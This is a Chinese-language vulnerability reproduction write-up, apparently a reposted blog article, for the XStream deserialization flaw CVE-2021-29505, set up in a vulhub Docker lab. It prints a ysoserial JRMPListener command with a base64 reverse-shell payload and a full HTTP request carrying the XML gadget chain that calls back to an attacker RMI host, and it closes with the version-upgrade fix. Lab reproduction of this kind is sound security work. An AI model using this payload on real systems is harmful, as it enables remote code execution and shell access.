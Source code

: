 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SfJ7PoshsbPV27zdwVC39Q)



XStream 远程代码执行（CVE-2021-29505 ）

一、简介描述

XStream 是一种 OXMapping 技术，是用来处理 XML 文件序列化的框架, 在将 javaBean 序列化，或将 XML 文件反序列化的时候，不需要其它辅助类和映射文件，使得 XML 序列化不再繁琐。攻击者可以操纵已处理的输入流并替换或注入对象，从而执行从远程服务器加载的任意代码。

二、影响版本：

XStream <= 1.4.16

三、环境搭建：

```
https://raw.githubusercontent.com/vulhub/vulhub/master/xstream/CVE-2021-29505/docker-compose.yml
```

文件：docker-compose.yml

```
version: '2'
services:
 web:
   image: vulhub/xstream:1.4.16
   ports:
    - "8080:8080"
```

docker-compose up -d

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYty5YibrEcuyUgM5YjG1JerIAhscgAIRuKEGwmFAtYjibjzd6tialjicuMQ/640?wx_fmt=png)

镜像已经启动：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYH7ERRte96OVejfbtYAvxUEyPJdXIEuNjmcw9dbicWn9EWJe5I8vha2w/640?wx_fmt=png)

访问地址：http://192.168.0.106:8080/

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYCAsVJ3LiajrwjurTm2BvxrvMU40arsSzUBbPenAricVX5JWvX0AAFd8w/640?wx_fmt=png)

四、漏洞复现

启动服务：

反弹目标需要 base64 加密：

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1098 CommonsCollections6 "bash -c {echo,L2Jpbi9iYxxxxxxxxPiYx}|{base64,-d}|{bash,-i}"
```

执行过程截图：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYGZuKWbpdfuNExMl7iaAiaolfWX7JvLiaNyH94NX6Wmoq4gJAfwZMsib8jQ/640?wx_fmt=png)

执行 poc：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYHosVr15feQa9ERZpQKCF5MqSpZrzrNjWOpdeZp0WoYPKS6gez6Fpdg/640?wx_fmt=png)

获取反弹 shell：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjf0xoIHQWA2BlTG2EJlg5yYnc3se995NF14wrUNWO3mOUYAHGiaFriaiblSavEviaUWJOhTc2OLMxD5tA/640?wx_fmt=png)

详细数据包：  

```
POST / HTTP/1.1
Host: 192.168.0.106:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 3115

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.0.102</string>
                                                <int>1098</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.0.102</host>
                                        <port>1098</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

五、漏洞修复：

将 xstream 升级到 1.4.17 或以上版本。（在 maven 的 / pom.xml 中替换高版本 xstream）

```
<dependency>
    <groupId>com.thoughtworks.xstream</groupId>
    <artifactId>xstream</artifactId>
    <version>1.4.17</version>
</dependency>
```

参考：

https://mp.weixin.qq.com/s/dh7Ewg7Pp-pg3mkLuUv9Rg

https://blog.csdn.net/weixin_45728976/article/details/116942969

